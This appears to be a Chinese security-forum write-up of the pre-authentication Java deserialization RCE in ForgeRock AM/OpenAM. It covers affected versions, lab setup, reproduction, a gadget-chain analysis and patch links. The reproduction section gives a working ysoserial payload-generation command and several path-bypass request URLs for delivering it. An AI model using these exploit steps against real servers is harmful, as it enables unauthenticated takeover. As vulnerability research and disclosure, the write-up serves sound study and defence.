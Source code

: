 0x00漏洞描述
========

ForgeRock AM是一个开源的访问管理、权限控制平台，在大学、社会组织中存在广泛的应用。

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-6c549a9e3a8da345a08597cb8ddf9e2262af43eb.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-6c549a9e3a8da345a08597cb8ddf9e2262af43eb.jpg)

ForgeRock AM服务器的to.pageSession参数中存在Java反序列化漏洞，未经身份验证的攻击者可以通过构造特殊的请求远程执行任意代码，并接管运行ForgeRockAM的服务器。

0x01影响版本
========

ForgeRock AM &gt;=5.0.0 &lt;6.5.3

ForgeRock OpenAM &gt;=9.0.0 &lt;14.6.3

0x02环境搭建
========

本次漏洞环境搭建采用官网14.6.2版本的环境 <https://github.com/OpenIdentityPlatform/OpenAM/releases> ，将下载的war导入进tomcat，tomcat启动即可。

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-e9590ef47171bd75000206f3ce8f855f24d09258.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-e9590ef47171bd75000206f3ce8f855f24d09258.png)

创建默认配置，配置完成即来到主页面

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-9713d2e5e73c7e55beef961c319a7f1c4cd41229.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-9713d2e5e73c7e55beef961c319a7f1c4cd41229.png)

0x03漏洞复现
========

本次漏洞复现采用以下两种利用方式

bp发包
----

首先在攻击机利用ysoserial反序列化工具生成相应的payload  
`java -jar ysoserial.jar Click1 "calc" | (echo -ne \\x00 && cat) | base64 | tr '/+' '_-' | tr -d '='`

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-374ebb9b0e09b01b0bb22e53dfa0efefd08f1220.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-374ebb9b0e09b01b0bb22e53dfa0efefd08f1220.png)

将payload复制并去除换行符，带入漏洞url中

```bash
GET /openam2/oauth2/..;/ccversion/Version?jato.pageSession=PAYLOAD
GET /openam2/oauth2/..///ccversion/Version?jato.pageSession=
GET /openam2/oauth2///..///ccversion/Version?jato.pageSession=
GET /openam2/oauth2/..;;;;;/ccversion/Version?jato.pageSession=
GET /openam2/oauth2/..//;/ccversion/Version?jato.pageSession=
GET /openam2/oauth2/../ccversion/Version?jato.pageSession=
GET /openam2/ccversion/Version?jato.pageSession=
```

以上任意一种url均能利用成功

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-caab583784aea0946a1ee21754595d161abc8e59.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-caab583784aea0946a1ee21754595d161abc8e59.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b3ff5ed63790254ce57438ed92db9d0102a01a49.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b3ff5ed63790254ce57438ed92db9d0102a01a49.png)

脚本利用
----

该EXP取自：<https://www.exploit-db.com/exploits/50131>

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-ae9dd6b700165289727ad0222c78f5a3f63768e0.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-ae9dd6b700165289727ad0222c78f5a3f63768e0.png)

利用效果如图

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8de78170ae43a1c7ab313deefa869c5f9ede9bed.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8de78170ae43a1c7ab313deefa869c5f9ede9bed.png)

0x04漏洞分析
========

本次漏洞分析环境即利用idea本地搭建、debug该项目。关于idea怎么运行war可参考：[https://www.cxyzjd.com/article/qq\_40389276/99405852](https://www.cxyzjd.com/article/qq_40389276/99405852)

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b87580f7abc0ab9ba16ccf8dd2f5fbca88ca0c4d.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b87580f7abc0ab9ba16ccf8dd2f5fbca88ca0c4d.png)

通过漏洞关键代码的描述，可以先找到漏洞利用关键入口，即 jato.pageSession 参数取值，可以看到参数值首先会经过 jato.util.Encoder 的 decodehttp64 方法进行解码，再由 Encoder.deserialize 进行反序列化的处理成会话属性，进而在内部由 ObjectInputStream 执行该反序列化内容

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-6e83fc7d17e3e767569622ede2d8d8563a0ad369.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-6e83fc7d17e3e767569622ede2d8d8563a0ad369.png)

带入 decodeHtpp64.decompress() 方法的处理，得到byte类型的payload

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-2b4595d28c72aee6d9bfaf883ddc0ae15dcd3d33.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-2b4595d28c72aee6d9bfaf883ddc0ae15dcd3d33.png)

接下来进入 Encoder.deserialize() 做处理，将上一步转换出来的byte数组以 ApplicationObjectInputStream 的 readObject 方法去序列化恢复读取该对象

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-0f807fce66f6bc66bc4f26442b3db187ec0d471b.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-0f807fce66f6bc66bc4f26442b3db187ec0d471b.png)

refObject.getclass().getClassLoader() 即获取当前对象所属的Class对象的类装载器，接下来就是围绕着利用ysoserial工具生成的payload做调用链的跟进

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-4aa47e8f52d926c8e08b7fb2f4dfce8f4a4e463a.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-4aa47e8f52d926c8e08b7fb2f4dfce8f4a4e463a.png)

以下是从 readObject 到 Runtime.exec 的最终执行路径

```bash
java.util.PriorityQueue.readObject()
...
org.apache.click.control.Column$ColumnComparator.compare()
org.apache.click.control.Column.getProperty()
org.apache.click.control.Table
org.apache.click.util.PropertyUtils.getValue()
...
java.lang.reflect.Method.invoke()
...
TemplatesImpl.newTransformer()
TemplatesImpl.getTransletInstance()
TemplatesImpl.defineTransletClasses()
...
ClassLoader.defineClass()
Class.newInstance()
...
Runtime.exec()
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-96ec2790604329040bddfac2f72d97425feb5e91.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-96ec2790604329040bddfac2f72d97425feb5e91.png)

继续跟进

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-422c45bc0f7be091b1cba41f0ba93fa020560132.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-422c45bc0f7be091b1cba41f0ba93fa020560132.png)

最后来到 invokeReadObject 方法中的 readObjectMethod 即是java.util.PriorityQueue.readObject(java.io.ObjectInputStream)，在该方法内部完成了以上调用链并弹出计算器

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-64437bead0869f9b2cdc9de5c987c588b0b94ef4.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-64437bead0869f9b2cdc9de5c987c588b0b94ef4.png)

以下便是从获取url到payload成功执行的函数调用栈

```bash
invokeReadObject:1060, ObjectStreamClass (java.io)
readSerialData:2136, ObjectInputStream (java.io)
readOrdinaryObject:2027, ObjectInputStream (java.io)
readObject0:1535, ObjectInputStream (java.io)
readObject:422, ObjectInputStream (java.io)
deserialize:359, Encoder (com.iplanet.jato.util)
deserializePageAttributes:934, ViewBeanBase (com.iplanet.jato.view)
invokeRequestHandler:568, ViewBeanBase (com.iplanet.jato.view)
dispatchRequest:957, ApplicationServletBase (com.iplanet.jato)
processRequest:615, ApplicationServletBase (com.iplanet.jato)
doGet:459, ApplicationServletBase (com.iplanet.jato)
service:635, HttpServlet (javax.servlet.http)
...
```

0x05修复建议
========

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：  
<https://backstage.forgerock.com/knowledge/kb/article/a47894244>

0x06参考链接
========

<https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464>